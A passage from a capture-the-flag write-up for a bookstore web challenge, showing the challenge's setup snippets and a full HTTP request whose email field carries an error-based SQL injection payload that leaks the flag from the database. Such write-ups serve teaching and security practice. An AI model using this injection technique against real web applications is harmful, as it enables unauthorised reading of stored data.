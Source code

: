     <snip>
    INSERT INTO books(title, author, price, texts) VALUES('Maple Stories', 'Maple-Chan', 0, 'FLAGE');
    <snip>

    <snip>
    ENV FLAG="maple{test_flag}"
    <snip>
    RUN sed -i "s/FLAGE/$FLAG/g" /init.sql
    <snip>

Since we can see error messages, we just need to make an inner query to
get the flag. The flag is a string while the `book_id` is an integer, so
MySQL will just show us an error with the flag.

    POST /download-ebook HTTP/1.1
    Host: bookstore.ctf.maplebacon.org
    Content-Length: 101
    Cache-Control: max-age=0
    Upgrade-Insecure-Requests: 1
    Origin: http://bookstore.ctf.maplebacon.org
    Content-Type: application/x-www-form-urlencoded
    User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/103.0.5060.114 Safari/537.36
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
    Referer: http://bookstore.ctf.maplebacon.org/books
    Accept-Encoding: gzip, deflate
    Accept-Language: en-US,en;q=0.9
    Cookie: connect.sid=s%3ABdnEbNYwPbMBON5eI0W8fOm_GZyVVcGi.12afwdrsBH7ZDoRHlKTxJKw9FK%2FAU11i81IPHX8UmaU
    Connection: close

    option=kindle&email=<@urlencode>"',(select texts from books where id=1))#"@a.br<@/urlencode>&bookID=1
